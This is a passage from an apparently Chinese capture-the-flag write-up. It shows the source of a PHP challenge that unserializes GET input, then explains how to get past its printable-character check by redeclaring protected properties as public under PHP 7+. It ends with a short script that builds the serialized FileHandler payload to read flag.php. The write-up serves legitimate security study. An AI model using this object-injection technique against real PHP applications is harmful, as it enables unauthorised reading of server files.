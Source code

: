 ```php
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

这里需要读`flag.php`文件，在`process()`函数中，当`op=2`时，`read()`中的`file_get_contents`就会执行，`is_valid()`会判断传入的字符串是否为可打印字符，而原来的类修饰均为`protected`，在序列化时会生成不可见的`\x00`，但`php7+`对类的属性类型不敏感，可直接把属性修饰为`public`，成功绕过`is_valid()`。

构造

```php
<?php
class FileHandler {

    public $op = 2;
    public $filename = "flag.php";
    public $content;
}

$a = new FileHandler();
echo serialize($a)."\n";
```
